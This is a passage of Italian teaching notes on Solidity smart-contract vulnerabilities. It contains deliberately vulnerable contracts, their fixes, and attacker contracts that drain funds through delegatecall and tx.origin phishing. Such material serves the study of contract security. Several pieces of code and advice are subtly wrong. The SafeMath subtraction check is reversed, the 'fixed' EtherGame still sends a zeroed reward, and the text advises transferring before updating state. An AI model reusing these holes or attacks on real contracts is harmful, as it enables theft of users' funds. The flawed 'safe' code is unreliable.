    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = now + 1 weeks;
    }
    
    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }
    
    function withdraw() public {
        require(balances[msg.sender] > 0);
        require(now > lockTime[msg.sender]);
        msg.sender.transfer(balances[msg.sender]);
        balances[msg.sender] = 0;
    }
}
\end{lstlisting}
Il valore della variabile \texttt{lockTime} ha visibilità pubblica. Un attaccante può sfruttare l'overflow per aprire il salvadanaio. Può passare come argomento di \texttt{increaseLockTime()} il numero 2\textsuperscript{256} - \texttt{userLockTime}, e la somma tra i due valori causerebbe un overflow, resettando \texttt{lockTime[msg.sender]} a 0. L'attaccante a questo punto può chiamare semplicemente la funzione di prelievo per ottenere la ricompensa.

Vediamo un altro esempio: questo contratto è un token che consente agli utenti di trasferire Ether mediante la funzione \texttt{transfer()}.
\begin{lstlisting}[language=Solidity]
pragma solidity ^0.4.18;
contract Token {
    mapping(address => uint) balances;
    uint public totalSupply;
    
    function Token(uint _initialSupply) {
        balances[msg.sender] = totalSupply - _initialSupply;
    }
    
    function transfer(address _to, uint _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
    
    function balanceOf(address _owner) public constant returns (uint balance) {
        return balances[_owner];
    }
}
\end{lstlisting}
La vulnerabilità di questo contratto sta nella riga

\texttt{require(balances[msg.sender] - \_value >= 0);}

che può essere bypassata utilizzando un underflow. Si consideri infatti un utente che non ha alcun saldo e invoca la funzione \texttt{transfer()} con qualsiasi \texttt{\_value} diverso da zero. L'istruzione \texttt{require} in questione viene superata perche \texttt{balances[msg.sender]} è zero (è un \texttt{uint256}) quindi la sottrazione con un qualsiasi importo positivo (escluso 2\textsuperscript{256}) risulterà in un numero positivo a causa dell'underflow. Ciò vale anche per la riga successiva, dove al saldo verrà accreditato un valore positivo.

La soluzione per proteggersi dalle vulnerabilità di overflow/underflow consiste nell'usare o costruire librerie matematiche sicure come \texttt{SafeMath} di Open Zepplin.
\begin{lstlisting}[language=Solidity]
library SafeMath{
    function mul(uint256 a, uint256 b) internal pure returns (uint256) {
        if (a == 0) {
            return 0;
        }
        uint256 c = a * b;
        assert(c / a == b);
        return c;
    }
    function div(uint256 a, uint256 b) internal pure returns (uint256) {
        //assert(b>0); //Solidity automatically throws when dividing by a 0
        uint256 c = a / b;
        return c;
    }
    function sub(uint256 a, uint256 b) internal pure returns (uint256) {
        assert(b >= a);
        return a - b;
    }
    function add(uint256 a, uint256 b) internal pure returns (uint256) {
        uint256 c = a + b;
        assert(c >= a);
        return c;
    }
}
\end{lstlisting}
Il contratto \texttt{TimeLock} può essere quindi migliorato utilizzando questa libreria:
\begin{lstlisting}[language=Solidity]
contract TimeLock {
using SafeMath for uint //use the library for uint type
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;
    
    function deposit() public payable {
        balances[msg.sender] = balances[msg.sender].add(msg.value);
        lockTime[msg.sender] = now.add(1 weeks);
    }
    
    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] = lockTime[msg.sender].add(_secondsToIncrease);
    }
    
    function withdraw() public {
        require(balances[msg.sender] > 0);
        require(now > lockTime[msg.sender]);
        msg.sender.transfer(balances[msg.sender]);
        balances[msg.sender] = 0;
    }
}
\end{lstlisting}
Quando una quantità di Ether viene inviata ad un contratto, deve eseguire la funzione di fallback o un'altra funzione descritta nel contratto. Ci sono due eccezioni:
\begin{itemize}
    \item Qualsiasi contratto può implementare la funzione \texttt{selfdestruct(address)}, che rimuove tutto il bytecode dall'indirizzo del contratto e invia tutti gli Ether lì memorizzati all'indirizzo specificato dal parametro. Se l'indirizzo specificato è di uno smart contract, non viene chiamata nessuna delle sue funzioni (incluso il fallback). Qualsiasi attaccante può creare un contratto con una funzione \texttt{selfdestruct()}, inviargli Ether, chiamare \texttt{selfdestruct(target)} e forzare l'invio di Ether a un contratto target.
    \item Un utente può precaricare un nuovo contratto con Ether, cosicché dopo la sua creazione avrà un saldo diverso da zero.
\end{itemize}
Vediamo uno smart contract che rappresenta un semplice gioco che causerebbe situazioni di race conditions, in cui i giocatori inviano 0.5 Ether al contratto nella speranza di essere il giocatore che raggiunge per primo uno dei tre traguardi. Il primo a raggiungere il traguardo può rivendicare una parte dell'Ether accumulato quando il gioco è finito. Il gioco termina quando viene raggiunto il traguardo finale (10 Ether) e gli utenti possono richiedere i loro premi.
\begin{lstlisting}[language=Solidity]
contract EtherGame {
    
    uint public payoutMileStone1 = 3 ether;
    uint public mileStone1Reward = 2 ether;
    uint public payoutMileStone2 = 5 ether;
    uint public mileStone2Reward = 3 ether; 
    uint public finalMileStone = 10 ether; 
    uint public finalReward = 5 ether; 
    
    mapping(address => uint) redeemableEther;
    // users pay 0.5 ether. At specific milestones, credit their accounts
    function play() public payable {
        require(msg.value == 0.5 ether); // each play is 0.5 ether
        uint currentBalance = this.balance + msg.value;
        // ensure no players after the game as finished
        require(currentBalance <= finalMileStone);
        // if at a milestone credit the players account
        if (currentBalance == payoutMileStone1) {
            redeemableEther[msg.sender] += mileStone1Reward;
        }
        else if (currentBalance == payoutMileStone2) {
            redeemableEther[msg.sender] += mileStone2Reward;
        }
        else if (currentBalance == finalMileStone ) {
            redeemableEther[msg.sender] += finalReward;
        }
        return;
    }
    
    function claimReward() public {
        // ensure the game is complete
        require(this.balance == finalMileStone);
        // ensure there is a reward to give
        require(redeemableEther[msg.sender] > 0); 
        redeemableEther[msg.sender] = 0;
        msg.sender.transfer(redeemableEther[msg.sender]);
    }
 }
\end{lstlisting}

Il primo errore è che prima si dovrebbe trasferire l'ammontare di ether e poi settare a 0 il premio. Inoltre, il cattivo uso di \texttt{this.balance} nel codice può dare problemi se un malintenzionato potrebbe forzare il contratto mandando una piccola quantità di Ether(0.1 ad esempio) tramite la funzione \texttt{selfdestruct()} per impedire a futuri giocatori di raggiungere un traguardo. Infatti in questo modo non viene chiamata nessuna funzione ma la quantità di criptovaluta nel contratto aumenta, rendendo così impossibile il raggiungimento dei premi. In aggiunta, un attaccante potrebbe anche inviare forzatamente 10 Ether o più per spingere il saldo del contratto al di sopra di \texttt{finalMileStone}, così da bloccare per sempre tutti i premi nel contratto.

Per risolvere questa vulnerabilità, possiamo introdurre una variabile \texttt{depositedWei} per tenere traccia dell'ether depositato. In questo modo non abbiamo più riferimenti a \texttt{this.balance}, quindi risulta sicuro anche nel caso di chiamate a \texttt{selfdestruct()}. La logica implementata nello smart contract, quando possibile, dovrebbe evitare di dipendere dai valori esatti del saldo del contratto perché può essere manipolato artificialmente.

La versione fixata del contratto è:

\begin{lstlisting}[language=Solidity]
contract EtherGame {
    
    uint public payoutMileStone1 = 3 ether;
    uint public mileStone1Reward = 2 ether;
    uint public payoutMileStone2 = 5 ether;
    uint public mileStone2Reward = 3 ether; 
    uint public finalMileStone = 10 ether; 
    uint public finalReward = 5 ether; 
    uint public depositedWei;
    
    mapping (address => uint) redeemableEther;
    
    function play() public payable {
        require(msg.value == 0.5 ether);
        uint currentBalance = depositedWei + msg.value;
        // ensure no players after the game as finished
        require(currentBalance <= finalMileStone);
        if (currentBalance == payoutMileStone1) {
            redeemableEther[msg.sender] += mileStone1Reward;
        }
        else if (currentBalance == payoutMileStone2) {
            redeemableEther[msg.sender] += mileStone2Reward;
        }
        else if (currentBalance == finalMileStone ) {
            redeemableEther[msg.sender] += finalReward;
        }
        depositedWei += msg.value;
        return;
    }
    
    function claimReward() public {
        // ensure the game is complete
        require(depositedWei == finalMileStone);
        // ensure there is a reward to give
        require(redeemableEther[msg.sender] > 0); 
        redeemableEther[msg.sender] = 0;
        msg.sender.transfer(redeemableEther[msg.sender]);
    }
 }
\end{lstlisting}

Molto spesso in programmazione è conveniente non avere una struttura monolitica del software. Gli opcode \texttt{CALL} e \texttt{DELEGATECALL} sono utili per modulare il codice negli smart contract. Questi due codici operativi realizzano la chiamata di codice esterno ma hanno sostanziali differenze:
\begin{itemize}
    \item Le chiamate gestite dall'opcode \texttt{CALL} implicano che il codice venga eseguito nel contesto del contratto/funzione esterna. Ad esempio quando \texttt{D} invoca \texttt{CALL} su una funzione \textit{f} di \texttt{E}, \texttt{msg.sender} vista da \textit{f} è \texttt{D}.
    \item Il codice operativo \texttt{DELEGATECALL} si differenzia per il fatto che il codice viene eseguito nel contesto del contratto chiamante. Ad esempio quando \texttt{D} (la cui funzione è stata invocata dall'utente/contratto \texttt{C} invoca \texttt{DELEGATECALL} su \textit{f} di \texttt{E}, \texttt{msg.sender} vista da \textit{f} è \texttt{C}.
\end{itemize}
Questi due opcode consentono l'implementazione di librerie in cui gli sviluppatori possono creare codice riutilizzabile per contratti futuri. L'uso di \texttt{DELEGATECALL} può portare a un'esecuzione imprevista del codice e vulnerabilità. Infatti, sebbene sia sicuro e privo di vulnerabilità, il codice eseguito nel contesto di un'altra applicazione può determinare l'insorgere di nuove vulnerabilità. Vediamo un sempio con la libreria che genera la sequenza di Fibonacci e offre una funzione per ottenere il numero in posizione ennesima nella successione.


\begin{lstlisting}[language=Solidity]
// library contract - calculates fibonacci-like numbers;
contract FibonacciLib {
    // initializing the standard fibonacci sequence;
    uint public start;
    uint public calculatedFibNumber;
    // modify the zeroth number in the sequence
    function setStart(uint _start) public {
        start = _start;
    }
    function setFibonacci(uint n) public {
        calculatedFibNumber = fibonacci(n);
    }
    function fibonacci(uint n) internal returns (uint) {
        if (n == 0) return start;
        else if (n == 1) return start + 1;
        else return fibonacci(n - 1) + fibonacci(n - 2);
    }
}
\end{lstlisting}


Questa libreria può essere usata in un altro contratto, mostrato di seguito, che consente a un partecipante di ritirare l'Ether dal contratto, con la quantità pari al numero di Fibonacci corrispondente all'ordine di prelievo del partecipante.

\begin{lstlisting}[language=Solidity]
contract FibonacciBalance {
    address public fibonacciLibrary;
    // the current fibonacci number to withdraw
    uint public calculatedFibNumber;
    // the starting fibonacci sequence number
    uint public start = 3;    
    uint public withdrawalCounter;
    // the fibonancci function selector
    bytes4 constant fibSig = bytes4(sha3("setFibonacci(uint256)"));
    
    // constructor - loads the contract with ether
    constructor(address _fibonacciLibrary) public payable {
        fibonacciLibrary = _fibonacciLibrary;
    }
    function withdraw() {
        withdrawalCounter += 1;
        // calculate the fibonacci number for the current withdrawal user
        // this sets calculatedFibNumber
        require(fibonacciLibrary.delegatecall(fibSig, withdrawalCounter));
        msg.sender.transfer(calculatedFibNumber * 1 ether);
    }
    
    // allow users to call fibonacci library functions
    function() public {
        require(fibonacciLibrary.delegatecall(msg.data));
    }
}
\end{lstlisting}

\begin{itemize}
    \item \texttt{fibonacciLibrary} è l'indirizzo della libreria di Fibonacci;
    \item \texttt{calculatedFibNumber} è il numero di Fibonacci calcolato;
    \item \texttt{bytes4 constant fibSig = bytes4(sha3("setFibonacci(uint256)"));} stabilisce quale funzione possiamo chiamare, passando come variabile lo SHA3 del nome della funzione; viene chiamato \textbf{selezionatore di funzione};
    \item Nella funzione \texttt{withdraw()} faccio una chiamata con \texttt{DELEGATECALL} alla libreria passandogli la variabile che contiene la firma in SHA3 della funzione da chiamare e il parametro
    
    \texttt{withdrawalCounter}. Infine trasferisco al chiamate una certa quantità di Ether.
\end{itemize}
L'indirizzo del contratto esterno da chiamare è passato mediante il costruttore. Non sussiste alcun controllo se il contratto passato è quello corretto, e ciò può dare problemi, perché non so se quello smart contract implementa quella funzione. Inoltre, i parametri di input per gli smart contract sono visibili sulla blockchain e possono rilevare particolari scelte di implementazione. Una soluzione consiste nell'usare la parola chiave \texttt{new} per creare contratti:

\begin{lstlisting}[language=Solidity]
constructor() public payable {
    fibonaccyLibrary = new FibonacciLib();
}
\end{lstlisting}

Una vulnerabilità è che entrambi i contratti hanno la variabile \texttt{start}, e la funzione di fallback in \texttt{FibonacciBalance} consente di passare tutte le chiamate al contratto di libreria, e potenzialmente chiamare setStart(). Questo perché usando \texttt{DELEGATECALL} il contesto rimane quello del chiamante quindi la variabile locale start nasconde quella di libreria. Ma i problemi sono ben più profondi.

Le variabili di stato o di archiviazione (variabili che persistono nelle singole transazioni) vengono inserite in slot dello stack in modo sequenziale man mano che vengono dichiarate nel contratto. La prima variabile è \texttt{start} (quella di libreria), e viene memorizzata allo \texttt{slot[0]}. La seconda variabile, \texttt{calculatedFibNumber}, viene posizionata nel successivo slot, \texttt{slot[1]}. La funzione \texttt{setFibonacci(n)} pone \texttt{calculatedFibNumber} pari suo ritorno, ovvero pone \texttt{slot[1]} pari al suo ritorno.

Passando al contratto di \texttt{FibonacciBalance}, abbiamo che \texttt{slot[0]} corrisponde all'indirizzo di

\texttt{fibonacciLibrary} e \texttt{slot[1]} corrisponde a \texttt{calculatedFibNumber}. Qui è presente la vulnerabilità siccome \texttt{DELEGATECALL} preserva il contesto del contratto chiamante. La funzione \texttt{setFibonacci()} viene chiamata, modificando \texttt{slot[1]} come previsto. Tuttavia, la variabile \texttt{start} nel contratto 

\texttt{FibonacciLib} si trova in \texttt{slot[0]}, che nel contesto del chiamante contiene l'indirizzo di

\texttt{fibonacciLibrary}. Ciò significa che la funzione \texttt{fibonacci()} darà un risultato inaspettato. Inoltre, il contratto 

\texttt{FibonacciBalance} consente agli utenti di chiamare tutte le funzioni di \texttt{FibonacciLibrary} tramite la funzione di fallback, tra cui la funzione \texttt{setStart()}. Tale funzione è richiamata mediante \texttt{DELEGATECALL}, che preserva il contesto, quindi questa funzione consente a chiunque di modificare o impostare il valore in 
\texttt{slot[0]}, ovvero l'indirizzo per \texttt{FibonacciLibrary}. Pertanto, un utente malintenzionato potrebbe creare un contratto dannoso, e chiamare \texttt{setStart()} passando l'indirizzo del contratto dannoso. Questo farà sì che ogni volta che un utente chiama \texttt{draw()} o la funzione di fallback, verrà eseguito il contratto dannoso, che puo rubare l'intero saldo del contratto. Un contratto dannoso che si comporta in questo modo potrebbe essere:

\begin{lstlisting}[language=Solidity]
contract Attack {
    uint storageSlot0; // corresponds to fibonacciLibrary
    uint storageSlot1; // corresponds to calculatedFibNumber
   
    // fallback - this will run if a specified function is not found
    function() public {
        storageSlot1 = 0; // we set calculatedFibNumber to 0, so that if withdraw
        // is called we don't send out any ether. 
        <attacker_address>.transfer(this.balance); // we take all the ether
    }
 }
\end{lstlisting}
Infatti in questo contratto \texttt{this.balance} non è il balance del contratto Attack, ma di quello attaccato!

Ovviamente questa è una vulnerabilità nota: per ovviare Solidity fornisce la parola chiave \texttt{library} per l'implementazione dei contratti di libreria. Ciò garantisce che il contratto con \texttt{library} sia senza stato (per attenuare le complessità del contesto di archiviazione) e non autodistruttibile.

\vspace{5mm}

Le funzioni in Solidity hanno specificatori di visibilità: una funzione può essere chiamata esternamente dagli utenti o da altri contatti derivati, o solo internamente o solo esternamente.

\begin{itemize}
    \item \texttt{private}: la funzione ha visibilità solo nel contratto in cui è definita.
    \item \texttt{internal}: la funzione ha visibilità nel contratto in cui è definita e dalle derivate di quel contratto.
    \item \texttt{external} la funzione può essere chiamata solo da altri smart contract.
    \item \texttt{public}: la funzione può essere chiamata da chiunque.
\end{itemize}
L'impostazione predefinita delle funzioni è la visibilità pubblica. Un errato utilizzo degli specificatori di visibilità può portare a vulnerabilità devastanti, come nel prossimo esempio. Questo contratto è progettato per fungere da gioco per indovinare gli indirizzi. Per vincere il saldo del contratto, un utente deve generare un indirizzo Ethereum i cui ultimi caratteri esadecimali sono 0.

\begin{lstlisting}[language = Solidity]
contract HashForEther {
    function withdrawWinnings() {
        // Winner if the last 8 hex characters of the address are 0. 
        require(uint32(msg.sender) == 0);
        _sendWinnings();
     }
     function _sendWinnings() {
         msg.sender.transfer(this.balance);
     }
}
\end{lstlisting}
Per controllare gli ultimi 8 caratteri esadecimali faccio il casting dell'indirizzo a \texttt{uint32} e controllo che sia zero. Non avendo specificato la visibilità delle funzioni, queste sono pubbliche, quindi chiunque può invocare la funzione \texttt{\_sendWinnings()}, che è pubblica, e ottenere la taglia non rispettando il gioco. Per evitare l'insorgenza di queste problematiche, è buona norma specificare sempre la visibilità di tutte le funzioni in un contratto, anche se intenzionalmente pubbliche.

Le funzioni \texttt{call()} e \texttt{send()} restituiscono un valore booleano che indica se la chiamata è riuscita o meno. Un errore comune si verifica quando il valore restituito non è controllato.
\begin{lstlisting}
contract Lotto {
    bool public payedOut = false;
    address public winner;
    uint public winAmount;
    
    // ... extra functionality here 
    function sendToWinner() public {
        require(!payedOut);
        winner.send(winAmount);
        payedOut = true;
    }
    
    function withdrawLeftOver() public {
        require(payedOut);
        msg.sender.send(this.balance);
    }
}
\end{lstlisting}
Il problema in questo codice è utilizzare una \texttt{send()} senza controllarne la risposta. Un vincitore la cui transazione fallisce (o esaurisce il gas, o perché invoca \texttt{throws} intenzionalmente nella fallback o tramite un call stack depth attacck, impossibile su recenti EVM) consente alla variabile \texttt{payedOut} di essere impostata su \texttt{true} (indipendentemente dal fatto che l'ether sia stato inviato o no). In questo caso, chiunque può ritirare la vincita tramite la funzione \texttt{withdrawLeftOver()}. Quando possibile, si deve preferire \texttt{transfer()} a \texttt{send()}, perché propaga gli errori all'indietro verso il chiamante disfacendo la transazione. Se \texttt{send()} è richiesto, magari perché gli errori devono essere gestiti localmente, bisogna assicurarsi di controllare sempre il valore restituito, dove è importante che l'errore venga gestito nel contratto senza annullare tutte le modifiche di stato.

La combinazione di chiamate esterne ad altri contratti e la natura multiutente della blockchain sottostante dà origine a una serie di potenziali insidie per cui gli utenti competono per l'esecuzione del codice ottenendo esiti imprevisti. Le transazioni sono ordinate dai miners in base al loro \texttt{gasPrice}, e ciò può essere usato a proprio vantaggio dagli attaccanti. In questo smart contract, l'utente che trova la stringa per l'hash sha3 nella variabile \texttt{hash} può inviare la soluzione e vincere 1000 ether. Ipotizziamo che un utente capisce che la soluzione è \texttt{"Ethereum!"}, e invoca di conseguenza \texttt{solve()}. Un utente malintenzionato può aver controllato il pool di transazioni e vedendo questa transazione, invia una transazione equivalente con un prezzo del gas molto più alto rispetto a quella originale. A causa del gas più elevato, la seconda transazione sarà accettata prima (\textit{front running attack}). L'attaccante otterrà i 1000 ether e l'utente onesto non otterrà nulla.
\begin{lstlisting}[language=Solidity]
contract FindThisHash {
    bytes32 constant public hash = 0xb5b5b97fafd9855eec9b41f74dfb6c38f5951141f9a3ecd7f44d5479b630ee0a;
    
    constructor() public payable {} // load with ether
    
    function solve(string solution) public {
        // If you can find the pre image of the hash, receive 1000 ether
        require(hash == sha3(solution)); 
        msg.sender.transfer(1000 ether);
    }
}
\end{lstlisting}
Per ovviare a questa vulnerabilità, una delle soluzioni è quella di utilizzare uno schema di \textit{commit-reveal}, quando possibile. Gli utenti inviano transazioni con informazioni nascoste (in genere un hash):
\begin{lstlisting}[language=Solidity]
function commit(bytes32 committment) public payable { }
\end{lstlisting}
Dopo che la transazione è stata inclusa in un blocco, l'utente invia un'altra transazione rivelando i dati che sono stati inviati.
\begin{lstlisting}[language=Solidity]
function reveal(Choice choice, bytes32 blindingFactor) public { }
\end{lstlisting}
Questo metodo impedisce sia ai miner che agli utenti di effettuare transazioni anticipate poiché non possono determinare il contenuto della transazione.

Esistono vari modi in cui un contratto può diventare indisponibile mediante attacchi DoS: uno dei modi è rappresentato da cicli lunghi di mappoing o di array manipolati esternamente. Ad esempio sto eseguendo un \texttt{for} sull'array che intanto viene cambiato quindi il ciclo potrebbe continuare all'infinito.
\begin{lstlisting}[language=Solidity]
contract DistributeTokens {
    address public owner; // gets set somewhere
    address[] investors; // array of investors
    uint[] investorTokens; // the amount of tokens each investor gets
    
    // ... extra functionality, including transfertoken()
    
    function invest() public payable {
        investors.push(msg.sender);
        investorTokens.push(msg.value * 5); // 5 times the wei sent
        }
    
    function distribute() public {
        require(msg.sender == owner); // only owner
        for(uint i = 0; i < investors.length; i++) { 
            // here transferToken(to,amount) transfers "amount" of tokens to the address "to"
            transferToken(investors[i],investorTokens[i]); 
        }
    }
}
\end{lstlisting}
Questo contratto ha un owner, un array per gli investitori e un array di token per gli investitori. La funzione \texttt{invest()} fa una push dell'indirizzo dell'investitore nell'array degli investitori e una push del valore pagato del messaggio moltiplicato per 5 nell'array di token. La funzione \texttt{distribute()} controlla che il chiamante sia l'owner e distribuisce i token agli investitori.

La vulnerabilità è nel ciclo che viene eseguito su un array che può essere modificato arbitrariamente. Un utente malintenzionato può creare molti account e chiamare \texttt{invest()} tante volte in modo tale che il gas richiesto per \texttt{distribute()} superi il limite del gas dello smart contract, rendendo sostanzialmente inutilizzabile la funzione \texttt{distribute()}.

La soluzione è evitare di ciclare su strutture che sono manipolate esternamente, oppure nell'applicare un withdrawal pattern, dove ogni utente invoca una funzione isolata che richiede il trasferimento del token.

\vspace{5mm}

Un altra modalità di attacco tramite DoS è ad esempio che l'owner del contratto debba eseguire alcune attività affinché il contratto possa passare allo stato successivo. Se perde le proprie chiavi o diventa inattivo, l'intero contratto diventa inutilizzabile. A volte i contratti passano a un nuovo stato se ricevono Ether o un input da una fonte esterna. Questi modelli possono portare ad attacchi DoS, quando la chiamata esterna fallisce o viene impedita per motivi esterni. Una soluzione consiste nell'impostare un timelock, che consente a qualsiasi utente di finalizzare dopo un periodo di tempo in cui la condizione non si è verificata.

I timestamp dei blocchi sono utilizzati per una varietà di applicazioni, e i miners hanno la capacità di modificare leggermente i timestamp, il che può rivelarsi piuttosto pericoloso se il timestamp vengono utilizzati in modo errato negli smart contract. Vediamo questo contratto che si comporta come una semplice lotteria. Una transazione per blocco può scommettere 10 ether per avere la possibilità di vincere il saldo del contratto. Il presupposto è che \texttt{block.timestamp} sia distribuito uniformemente sulle ultime due cifre. Se così fosse, ci sarebbe una probabilità di 1/15 di vincere.
\begin{lstlisting}[language=Solidity]
contract Roulette {
    uint public pastBlockTime; // Forces one bet per block
    
    constructor() public payable {} // initially fund contract
    
    // fallback function used to make a bet
    function () public payable {
        require(msg.value == 10 ether); // must send 10 ether to play
        require(now != pastBlockTime); // only 1 transaction per block
        pastBlockTime = now;
        if(now % 15 == 0) { // winner
            msg.sender.transfer(this.balance);
        }
    }
}
\end{lstlisting}
Se nel contratto è presente una quantità sufficiente di Ether, un minatore che risolve un blocco è incentivato a scegliere un timestamp tale che \texttt{block.timestamp} oppure \texttt{now} modulo 15 sia uguale a 0. In tal modo può vincere il saldo del contratto insieme alla ricompensa per il mining del blocco. Inoltre poiché c'è un solo partecipante per blocco questo contratto è vulnerabile al front running attack. Il margine d'azione però è limitatoL i timestamp aumentano in maniera monotona e non si possono scegliere valori arbitrari o troppo lontani nel futuro poiché il blocco risulterebbe rifiutato dalla rete. A volte è necessaria una logica sensibile al tempo, ma si consiglia di utilizzare \texttt{block.number} che è più sicuro poiché i miners non sono in grado di manipolarlo facilmente. 

I costruttori sono funzioni speciali che spesso svolgono compiti critici e privilegiati durante l'inizializzazione dei contratti. Prima di Solidity v0.4.22, i costruttori erano funzioni che avevano lo stesso nome del contratto che li conteneva. Quando un nome di contratto viene modificato in fase di sviluppo, ma il nome del costruttore non viene modificato, questo diventa una normale funzione richiamabile.
\begin{lstlisting}
contract OwnerWallet {
    address public owner;
    //constructor
    function ownerWallet(address _owner) public {
        owner = _owner;
    }
    
    // fallback. Collect ether.
    function () payable {} 
    
    function withdraw() public {
        require(msg.sender == owner); 
        msg.sender.transfer(this.balance);
    }
}
\end{lstlisting}
In questo contratto ad esempio l'errore sta nel fatto che il costruttore non ha il nome identico al contratto, per cui può essere chiamato come una normale funzione, e quindi un utente malizioso può modificare l'owner del contratto. Dalla versione v0.4.22 di Solidity è stata introdotta la parola chiave \texttt{constructor} che specifica il costruttore. 

\vspace{5mm}

EVM archivia i dati in tre possibili locazioni:
\begin{itemize}
    \item \texttt{memory} - rappresenta un'area di memoria per le variabili locale delle funzioni, il cui ciclo di vita è limitato alla durata di una chiamata esterna di funzione.
    \item \texttt{storage} - rappresenta un'area di memoria per le variabili di stato, il cui ciclo di vita è pari a quello del contratto.
    \item \texttt{calldata} - rappresenta un'area di memoria speciale non modificabile e non persistente, utilizzata per gli argomenti delle funzioni \texttt{ecternal}.
\end{itemize}
È altamente raccomandato quando si sviluppano i contratti capire esattamente come vengono gestite queste aree di memoria per le variabili locali delle funzioni, e i loro tipi predefiniti (valori o riferimenti). Questo perché è possibile produrre contratti vulnerabili inizializzando in modo inappropriato le variabili. 

Le variabili locali all'interno delle funzioni vengono allocate per impostazione predefinita in \texttt{storage} o \texttt{memory} a seconda del loro tipo. Se non inizializzate possono causare dei comportamenti inattesi.
\begin{lstlisting}[language=Solidity]
// A Locked Name Registrar
contract NameRegistrar {
    bool public unlocked = false;  // registrar locked, no name updates
    
    struct NameRecord { // map hashes to addresses
        bytes32 name;  
        address mappedAddress;
    }
    mapping(address => NameRecord) public registeredNameRecord; // records who registered names 
    mapping(bytes32 => address) public resolve; // resolves hashes to addresses
    
    function register(bytes32 _name, address _mappedAddress) public {
        // set up the new NameRecord
        NameRecord newRecord;
        newRecord.name = _name;
        newRecord.mappedAddress = _mappedAddress; 
        resolve[_name] = _mappedAddress;
        registeredNameRecord[msg.sender] = newRecord; 
        require(unlocked); // only allow registrations if contract is unlocked
    }
}
\end{lstlisting}
Questo contratto ha una variabile di stato \texttt{unlocked}, impostata a \texttt{false}, una struttura \texttt{NameRecord} e dei mapping. Poi c'è una funzione di registrazione che costruisce un oggetto \texttt{NameRecord} con nome e indirizzo, che può essere eseguita solo quando \texttt{unlocked} è \texttt{true}. 
Tuttavia c'è una vulnerabilità in questo contratto che permette di registrare nomi indipendentemente dal valore della variabile di stato. I tipi struct definiscono riferimenti, e \texttt{newRecord} non è inizializzato con \texttt{new}. Solidity inizializza per impostazione predefinita istanze di tipi di dati complessi, come gli struct, a \texttt{storage}, quando questi vengono usate come variabili locali. \texttt{newRecord} punta a \texttt{storage} e quindi \texttt{newRecord.name} punta a \texttt{slot[0]}, ovvero ad \texttt{unlocked}, modificabile direttamente mediante il parametro \texttt{\_name} della funzione \texttt{register()}.

Generalmente il compilatore Solidity genera dei warning quando trova delle variabili non inizializzate, quindi gli sviluppatori dovrebbero prestare molta attenzione a questi avvisi. L'attuale versione di mist (0.10) non consente la compilazione di questi contratti.

\vspace{5mm}

Solidity ha una variabile globale, chiamata \texttt{tx.origin}, che attraversa l'intero stack di chiamate e restituisce l'indirizzo dell'account che ha originariamente inviato la chiamata o la transazione. L'utilizzo di questa variabile per l'autenticazione negli smart contract lascia il contratto vulnerabile a un attacco phishing. 
\begin{lstlisting}[language=Solidity]
contract Phishable {
    address public owner;
    
    constructor (address _owner) {
        owner = _owner; 
    }
    
    function () public payable {} // collect ether
    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance); 
    }
}

import "Phishable.sol";
contract AttackContract { 
    
    Phishable phishableContract; 
    address attacker; // The attackers address to receive funds.
    constructor (Phishable _phishableContract, address _attackerAddress) { 
        phishableContract = _phishableContract; 
        attacker = _attackerAddress;
    }
    
    function () { 
        phishableContract.withdrawAll(attacker); 
    }
}
\end{lstlisting}
Il contratto \texttt{Phishable} ha una funzione che controlla se l'inizializzatore della transazione è l'owner, e nel caso gli invia ether. Un attaccante può convincere il proprietario del contratto \texttt{Phishable} di inviargli dell'ether su un indirizoz, senza riconoscere che corrisponde ad \texttt{AttackContract}. L'effetto è quello di chiamare la funzione di fallback, che invoca quella del contratto vittima. La variabile \texttt{tx.origin} non deve essere mai utilizzata per l'autorizzazione negli smart contract, ma per altri scopi. Ad esempio, se si volesse negare ai contratti esterni di chiamare il contratto corrente, si potrebbe implementare una \texttt{require(tx.origin == msg.sender)}
\subsection{Vulnerabilità in Solidity - approfondimento}
In questa sezione sono presentate altre vulnerabilità di Solidity.

Consideriamo i seguenti contratti:
\begin{lstlisting}[language=Solidity]
contract WalletLibrary is WalletEvents {
  
  ...
  
  // throw unless the contract is not yet initialized.
  modifier only_uninitialized { if (m_numOwners > 0) throw; _; }
  // constructor - just pass on the owner array to the multiowned and
  // the limit to daylimit
  function initWallet(address[] _owners, uint _required, uint _daylimit) only_uninitialized {
    initDaylimit(_daylimit);
    initMultiowned(_owners, _required);
  }
  // kills the contract sending everything to `_to`.
  function kill(address _to) onlymanyowners(sha3(msg.data)) external {
    suicide(_to);
  }
  
  ...
  
}

contract Wallet is WalletEvents {
  ...
  // METHODS
  // gets called when no other function matches
  function() payable {
    // just being sent some cash?
    if (msg.value > 0)
      Deposit(msg.sender, msg.value);
    else if (msg.data.length > 0)
      _walletLibrary.delegatecall(msg.data);
  }
  
  ...  
  // FIELDS
  address constant _walletLibrary = 0xcafecafecafecafecafecafecafecafecafecafe;
}
\end{lstlisting}
Quello che accade è che il contratto \texttt{Wallet} passa tutte le chiamate al contratto \texttt{WalletLibrary} via una \texttt{DELEGATECALL}. La variabile \texttt{\_walletLibrary} funge da placeholder per il contratto \texttt{WalletLibrary}, che ha indirizzo \texttt{0x863DF6BFa4469f3ead0bE8f9F2AAE51c91A907b4}. Lo scopo di queste operazioni era quello di avere un contratto \texttt{Wallet} a basso costo le cui funzionalità base erano nel contratto \texttt{WalletLibrary}. 

La vulnerabilità è nel fatto che è possibile inviare le chiamate direttamente al contratto \texttt{WalletLibrary}, il quale potrebbe essere inizializzato e quindi posseduto da un owner. Infatti un utente può chiamare \texttt{initWallet()} sul contratto \texttt{WalletLibrary}, diventando l'owner, e poi chiamare la funzione \texttt{kill()}, distruggendo il contratto di libreria.

\vspace{5mm}

In questo contratto invece è possibile notare l'utilizzo improprio dei modificatori di visibilità su funzioni critiche:
\begin{lstlisting}
contract WalletLibrary is WalletEvents {
  
  ... 
  
  // METHODS
  ...
  
  // constructor is given number of sigs required to do protected "onlymanyowners" transactions
  // as well as the selection of addresses capable of confirming them.
  function initMultiowned(address[] _owners, uint _required) {
